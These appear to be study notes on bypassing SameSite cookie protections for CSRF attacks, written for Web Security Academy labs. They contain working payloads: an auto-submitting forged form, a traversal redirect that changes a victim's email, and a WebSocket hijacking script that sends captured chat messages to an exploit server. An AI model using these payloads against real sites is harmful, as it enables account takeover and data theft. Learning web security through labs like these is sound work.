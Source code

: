 `Set-Cookie: trackingId=0F8tgdOhi9ynR1M9wa3ODa; SameSite=None; Secure`

## bypassing 

###  if he don't use CSRF token but uses `lax` or default same site cookie settings 
if he uses `lax` `chrome` initiates `lax` after `120 sec` 
if he accepts the submission over a `get` request then we can overwrite the method at CSRF POC 
as we know when using `lax` we can only make the victim send cookie cross sited only if he uses GET request so we can over write it like that 
```html
<html>
<body>
   <script>history.pushState(' ', ' ' ,'/')</script>
   <form action="" method="GET">
   <input type="hidden" name="_method" value="POST">
   <input type="hidden" name="email" value="">
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```
we trick the browser by make the method of the form `get` but we overwrite it in the next step 

### if the web site made the cookie `srtict`
so we have nothing to do but finding  a redirect in the website and the endpoint of the CSRF vulnerable function accepts `GET` request so we need to manipulate the URL for redirect to our endpoint and with all parameters and redirections 
```js
<script>
window.location="https://0aa200ba03bde9e280e2088d006f00be.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email%3femail%3dyoussefsemira1%2540gmail.com%26submit%3d1";
</script>
```
so we made a script that redirects us to the vulnerable endpoint with the new credentials 

### if the web site made the cookie `srtict` again 
but u can't find any redirection in you r domain so if you found the `CORS`header `acces-control=allow=inrigin=origin.com` so if you found any vulnerability in that domain that means that you can exploit the `CSRF` 


this code is for hijacking the websocket by another domain 
```js 
<script>
var webSocket = new WebSocket(
    "wss://0a7a007e033d38b38015171c000700c4.web-security-academy.net/chat"
);

webSocket.onopen = function (evt) {
    webSocket.send("READY");
};

webSocket.onmessage = function (evt) {
    var message = evt.data;
    fetch(
        "https://exploit-0ad2007d03e4382c8000167001200042.exploit-server.net/exploit?message=" + 
        btoa(message)
    );
}
</script>

```